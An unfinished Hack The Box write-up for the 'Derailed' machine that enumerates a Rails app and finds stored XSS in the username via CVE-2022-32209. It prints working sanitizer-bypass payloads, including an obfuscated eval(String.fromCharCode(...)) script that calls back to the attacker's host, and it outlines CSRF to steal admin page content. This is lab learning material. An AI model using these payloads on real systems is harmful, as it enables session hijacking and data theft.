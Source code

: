 # Derailed (WIP)

## Gaining Access

As usual, we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

Port 3000 was found to be a HTTP port leading us to this Clipnotes page.

### Directory Enum

<figure><img src="../../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Wasn't much to play around with, as we had no credentials yet. Decided to run a directory scan to find if there are any endpoints. Eventually, I found this /rails endpoint, using dirsearch.

<figure><img src="../../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Interesting. This presented a lot of information for me and also tells me this is a Ruby on Rails project. Another interesting directory was the **/administration** panel which I could not view at all. This is the information from the info endpoint:

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

From here, we can try to fuzz out other information and endpoints on this /rail directory. I used feroxbuster for its recursive search function.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

This directory basically shows us every single path there was in the website:

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

### /clipnotes

Earlier, we saw some form of clipnote function. Testing it shows us that each time we create a new one, it is stored on the server somewhere. Notice that this one I created was 110.

<figure><img src="../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

&#x20;Using the **/clipnotes/raw/:id** format, I was able to view the first clipnote, submitted by a user called Alice. Visiting anything other than 1 was not possible.

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

I was interested in what other number is present, so I used wfuzz to enumerate out all other numbers. None are present it seems

<figure><img src="../../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

I checked out the other endpoints, as there may be more interesting ones. The **/report** one looks good.

### /report

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

Submitting a report reveals tells us that an admin would look at it. This tells me that perhaps, there is a form of XSS present on the site.

When looking at the POST request for the report, we can see that it sends this authenticity\_token:

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

However, the cookies have been set to HttpOnly, meaning that stealing cookies is pointless in this case. XSS on the administrator could either allow us to enumerate more about the /administration page, or simply to steal his cookie and impersonate him.

Because this is clearly an XSS challenge, I thought of first finding a potential XSS entry.&#x20;

### Finding XSS Point

I messed around a lot with the clipnotes and tried all sorts of stuff, but it wasn't loading Javascript. Then I realised that the **author** of the clipnotes was something that I controlled. Perhaps, I could overflow the thing or try to register a malicious user. Since the page renders that username, this could potentially be vulnerable.

So I started a HTTP server, and attempted this:

<figure><img src="../../../.gitbook/assets/image (15) (3).png" alt=""><figcaption></figcaption></figure>

The reason I did this was because I am aware that there is a potential limit to the username, and trying to overflow that may cause the end bit to be rendered as JS code. Then I created a clipnote:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

The overflow kind of worked, managed to remove the last portion about the created bit. I then went to try various different payloads including \<img> tags and stuff. DIdn't really work. I then suspected this has to do with some kind of CVE that was released recently (usual pattern of HTB, uses CVEs from 2022), and went hunting for Ruby + XSS related exploits that came out recently.

I eventually found CVE-2022-32209, which was a XSS exploit for Rails::Html::Sanitizer. &#x20;

{% embed url="https://groups.google.com/g/rubyonrails-security/c/ce9PhUANQ6s?pli=1" %}

Seems that the \<select> tag was being used maliciously. I then tried the same overflow trick with this payload:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/xss.pls'>
```

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

This worked! I was able to get a callback as well:

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

Now, we just need to find a way to exploit this XSS.

### CSRF + XSS

Understanding that we now have XSS, I was thinking of using CSRF in order to retrieve more information about the /administration page. The reason CSRF is used is because **CSRF tokens do not protect against XSS.** We had a simple rails cookie that was HttpOnly, so XSS needs to do something else.

Since we can basically execute basic web requests using our username, we need to think of how to redirect the user somewhere. We can abuse the **eval** function to inject malicious JS code.&#x20;

First, I made a simple script that would callback to our machine.

```javascript
var xmlHttp = new XMLHttpRequest();
xmlHttp.open("GET", "http://10.10.14.29/stringcallback", false);
xmlHttp.send(null);
```

Then I encoded it using Base64, and wanted to see if I was able to get the callback I wanted using event attributes. The end username was this:

{% code overflow="wrap" %}
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/imgfail' onerror="eval(decode64('dmFyIHhtbEh0dHAgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKeG1sWG1sSHR0cC5vcGVuKCJHRVQiLCAiaHR0cDovLzEwLjEwLjE0LjI5L3NjcmlwdGNhbGxiYWNrIiwgdHJ1ZSk7CnhtbEh0dHAuc2VuZChudWxsKTs='))">
```
{% endcode %}

Base64 Encoding did not work, so I tried with Char Coding instead. What Char Coding does is basically translate all the characters within my script to become ASCII letters.&#x20;

The payload becomes this:

{% code overflow="wrap" %}
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/imgfail' onerror="eval(String.fromCharCode(118, 97, 114, 32, 120, 109, 108, 72, 116, 116, 112, 32, 61, 32, 110, 101, 119, 32, 88, 77, 76, 72, 116, 116, 112, 82, 101, 113, 117, 101, 115, 116, 40, 41, 59, 10, 120, 109, 108, 72, 116, 116, 112, 46, 111, 112, 101, 110, 40, 34, 71, 69, 84, 34, 44, 32, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 46, 49, 48, 46, 49, 52, 46, 50, 57, 47, 115, 116, 114, 105, 110, 103, 99, 97, 108, 108, 98, 97, 99, 107, 34, 44, 32, 102, 97, 108, 115, 101, 41, 59, 10, 120, 109, 108, 72, 116, 116, 112, 46, 115, 101, 110, 100, 40, 110, 117, 108, 108, 41, 59))">
```
{% endcode %}

This payload worked! I was able to retrieve two callbacks after creating the clipnote.

<figure><img src="../../../.gitbook/assets/image (2) (1) (5).png" alt=""><figcaption></figcaption></figure>

Now we can use a script from Hacktricks to steal the page content of the administration panel. However, seems like sending GET requests via this method does not work. Had a hard time making it work with the reports feature, but I'll get there. WIP.
